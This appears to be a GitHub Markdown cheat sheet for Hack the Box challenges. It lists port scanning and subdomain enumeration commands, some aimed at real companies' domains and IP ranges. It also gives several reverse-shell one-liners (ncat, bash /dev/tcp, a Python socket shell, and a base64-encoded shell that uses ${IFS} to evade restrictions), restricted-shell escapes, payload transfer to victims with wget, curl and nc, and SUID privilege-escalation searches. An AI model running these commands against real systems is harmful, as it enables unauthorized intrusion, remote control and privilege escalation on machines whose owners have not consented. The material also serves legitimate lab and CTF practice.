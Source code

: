## Hack the Box Reference.<br>
***<h2>Contains commands,Link and tricks for challenges</h2>***<br>
***COMMON COMMANDS***<br>
**Nmap**<br>
•	nmap -sV -p 1-20000  -iL input.txt -oN output.txt<br>
**masscan probe to establish the open ports in the host.**<br>
•	masscan -e tun0 -p1-65535,U:1-65535 10.10.10.101 --rate=700<br>

**nmap scanning the discovered ports to see what are the services.**<br>
•	nmap -sV -v -O -sS -T5 {target}<br>
**Sudoing User...**<br>

 sudo -l	--> List available commands.<br>
 sudo command --> 	Run command as root.<br>
 sudo -u root command	 --> Run command as root.<br>
 sudo -u user command	-->  Run command as user.<br>

**Subfinder(only subfinder can run large wordlist)**<br>
•	./subfinder -d freelancer.com -o output.txt<br>
**Eyewitness**<br>
•	./EyeWitness.py --headless -f hunchly_dark.txt -d output_dir1 --prepend-https <br>
•	./EyeWitness.py --web --thread 50 -f hunchly_dark.txt -d output_dir1 --prepend-https<br>
•	dnscan.py -d ubnt.com -w /SecLists/Discovery/DNS/bitquark_subdomains_top100K.txt -t 30 -o D_ubnt.txt<br>
•	masscan -p80,443,8080,9090,8081, 66.211.168.0/22 > mass_paypal.txt<br>
•	gobuster -m dns -u target.com -w $wordlist<br>
**installing tab completion**<br>
•	apt-get install bash-completion<br>
**Untar**<br>
•	tar -xvf sqlmap.tar.gz<br>
•	gzip -d file.gz<br>
•	tcpdump port 9009<br>
•	tcpdump -nni eth0 icmp<br>
•	ps -eaf | grep [w]get<br>
•	cat /proc/meminfo<br>
•	cat /proc/cpuinfo<br>
•	wfuzz.py -c -z file,commons.txt --hc 404 -o html http://www.site.com/FUZZ 2> /var/www/html/res.html<br>
•	./parameth.py -u TARGET<br>
•	python linkfinder.py -i https://example.com/1.js -o results.html<br>

**list all file in a directory with permission**<br>
ls -l /home<br>
In the above it is listing all files of home directory with permissions<br>
**list all files with hidden with permission**<br>
ls -al<br>
**show permission of directory or file**<br>
ls -ld<br>
**Dir and File Bruteforce or enumeration**<br>
*WFUZZ*<br>
wfuzz -c -z file,/root/SecLists/Discovery/Web-Content/common.txt --hc 404,400 -X GET -u http://10.10.10.160/FUZZ<br>

**Gobuster Dir enumeration**<br>
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 20 -e -k -x php,htm,html,txt -u https://10.10.10.7/<br>

**REVERSE SHELL**<br>

Victim: ncat -e /bin/bash {IP} {PORT}<br>
Attacker: Machine:nc -lvnp {PORT}<br>
python -m SimpleHTTPServer 9999<br>
Victim: bash -i >& /dev/tcp/{IP}/{PORT} 0>&1<br>

Attacker: Machine:nc -lvnp {PORT}<br>
Victim(Base64): echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NC85MDA3IDA+JjE|base64${IFS}-d|bash${IFS}-;<br>

Attacker:nc 192.168.1.102 4444 -e /bin/sh <br>
Victim:nc -lvp 4444 <br>
Attacker:python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'<br>
Victim:nc -lvp 1234<br>
Note:In the above payload python will run and creating bash shell.But while sometimes trying to put commands it throws error like you have to run through terminal.For that Run Below command to work properly<br>
<br>
python3 -c 'import pty; pty.spawn("/bin/sh")'<br>
<br>
 Related Shell Escape Sequences...If commands are limited, you break out of the "jail" shell?
 
    python-->python3 -c 'import pty; pty.spawn("/bin/sh")'
    vi-->   :!bash
    vi-->   :set shell=/bin/bash:shell
    awk-->  awk 'BEGIN {system("/bin/bash")}'
    find--> find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;
    perl--> perl -e 'exec "/bin/bash";'
**File transfer during REVERSE SHELL**<br>
Attacker: service apache2 start<br>
place shell or exploit in /var/www/html<br>

Attacker:python -m SimpleHTTPServer 9999<br>
Victim: wget 192.168.1.102:9999/file.txt<br>
Victim: curl -O http://192.168.0.101/file.txt<br>

Attacker:nc -lvp 4444 < /root/home/exploit.txt<br>
Victim:nc 192.168.1.102 4444 > exploit.txt<br>




**bypass-bash-restrictions**<br>
https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions<br>

**Bypass shell restriction using {IFS} and Base 64 encoding**

```echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NC85MDA3IDA+JjE|base64${IFS}-d|bash${IFS}-;```<br>
it means the highlighted part below is base64 encoded to bypass shell restriction<br>
echo${IFS}**bash -i >& /dev/tcp/10.10.14.94/9007 0>&1**|base64${IFS}-d|bash${IFS}-;<br>
**Understanding Linux File and directory permissions**<br>
d 	r 	w 	x 	r 	w 	x 	r 	w 	x  t<br>
Dir	    Owner 	   Group 	       Other <br>
Directory 	Read 	Write 	Execute 	Read 	Write 	Execute 	Read 	Write 	Execute <br>
t is sticky flag restricted to executed by owner
If any of these letters is replaced with a hyphen (-), it means that permission is not granted.For example <br>
drwxr-xr-x<br>
    A folder which has read, write and execute permissions for the owner, but only read and execute permissions for the group and exe for other users.<br>
-rw-rw-rw-<br>
    A file that can be read and written by anyone, but not executed at all.<br>
    
 netstat -lntp<br>   
**Understanding Linux File and directory permissions Using Numbers**<br>
No (R) 	 (W) 	(X)<br>
0 	          No 	   No 	           No<br>
1 	          No     No 	           Yes<br>
2 	          No 	   Yes 	            No<br>
3 	          No 	   Yes 	           Yes<br>
4 	          Yes 	  No 	            No<br>
5 	          Yes 	  No 	            Yes<br>
6 	          Yes 	  Yes 	           No<br>
7 	          Yes    	Yes 	          Yes<br>

777 is the same as rwxrwxrwx<br>

755 is the same as rwxr-xr-x<br>
**Searching for root permission file and Binaries or SUID binaries***<br>
![Image description](https://2.bp.blogspot.com/-V6G2dcR6rew/WvxyU3zB5NI/AAAAAAAAW3o/es8P06opgNwUg8gUPjzcLO29dgVYBOOpQCLcBGAs/s1600/0.2.png)<br>
when special permission is given to each user it becomes SUID, SGID, and sticky bits. When extra bit “4” is set to user(Owner) it becomes SUID (Set user ID) and when bit “2” is set to group it becomes SGID (Set Group ID) and  if other users are allowed to create or delete any file inside a directory then sticky bits “1” is set to that directory.<br>
What is SUID Permission?

SUID: Set User ID is a type of permission that allows users to execute a file with the permissions of a specified user. Those files which have suid permissions run with higher privileges.  Assume we are accessing the target system as a non-root user and we found suid bit enabled binaries, then those file/program/command can run with root privileges. 

**HOW SUID helps in privilege escalation?**<br>
https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/ <br>
https://www.embeddedhacker.com/2019/12/hacking-walkthrough-thm-linux-privesc-playground/<br>
  **GTFOBins**<br>
https://gtfobins.github.io/<br>

**Getting files and binaries with root permissions**<br>
find / -perm -u=s -type f 2>/dev/null<br>
find / -perm /4000 2>/dev/null <br>
![Image description](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LSy0aAo8OKT4I-Ahftv%2F-LT25U7D_AdavNsKUdWf%2F-LT25_VrvhA02WZBj6ca%2Fimage.png?alt=media&token=0d51bea4-1371-4e00-b086-794d486cd950)</br>

CONNECTING MYSQL</br>
mysql --host=localhost --user=myname --password=password mydb</br>
mysql -h localhost -u myname -ppassword mydb</br>
